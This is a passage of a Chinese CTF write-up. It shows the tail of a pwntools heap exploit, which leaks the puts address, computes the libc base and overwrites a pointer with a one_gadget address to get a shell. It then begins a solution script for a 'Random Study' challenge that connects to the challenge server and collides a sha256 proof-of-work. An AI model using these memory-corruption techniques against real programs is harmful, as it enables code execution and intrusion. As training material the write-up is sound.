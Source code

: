 ```python
    GET(0x20,"A"*0x10)
    GET(0x20,"B"*0x10)
    CHANGE(0,0x80,p64(0xdeadbeefdeadbeef)*4+p64(0)+p64(0x21)+'\x68')
    puts_addr=u64(OPEN(1).ljust(8,'\x00'))  # 泄露PUTS
    libc_addr=puts_addr-0x06f690
    success("puts_addr: "+hex(puts_addr))
    success("libc_addr: "+hex(libc_addr))
    CHANGE(0,0x80,p64(0xdeadbeefdeadbeef)*4+p64(0)+p64(0x21)+p64(0)+p64(0x45216+libc_addr)) # one_gadget
    p.recvuntil(">>")
    p.sendline("2")
    p.sendline("1")

    attach(p)
    p.interactive()

if __name__ == '__main__':
    main()
```

![pwn](./img/2019-qwb-4.png)

## Random Study

Random study 共有四个阶段的题目。

- 初始阶段是告知 8 位随机字符串的 sha256 值，然后告知其中的前 5 位，给出整个字符串的 hex 值。
- 第一个阶段是根据当前时间的秒数随机种种子，然后生成随机数，在 200 次机会内填写正确。
- 第二个阶段是产生两个随机数，然后只有一次机会猜测第三个随机数。
- 第三个阶段是产生 32bit 的随机字符串，然后在 200 次机会内填写正确。

### 初始阶段

针对初始阶段，可以直接拿三字节随机数进行碰撞，代码：

```python
#建立连接
sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sock.connect(('119.3.245.36',23456))
#接收初始验证的内容
line1 = sock.recv(1024)
print(line1.decode())
line2 = sock.recv(1024)
#分割data获取skr的sha256
skr_sha256 = line2.decode().split('\n')[1].split('=')[1].strip()
#分割data获取skr的前5字节的hex值
skr_part1_hex = line2.decode().split('\n')[2].split('=')[1].strip()
#解析skr的数据
skr_part1 = bytes.fromhex(skr_part1_hex)
print(skr_part1)
#直接拿三个字节的随机数和skr_part1拼接碰撞sha256
```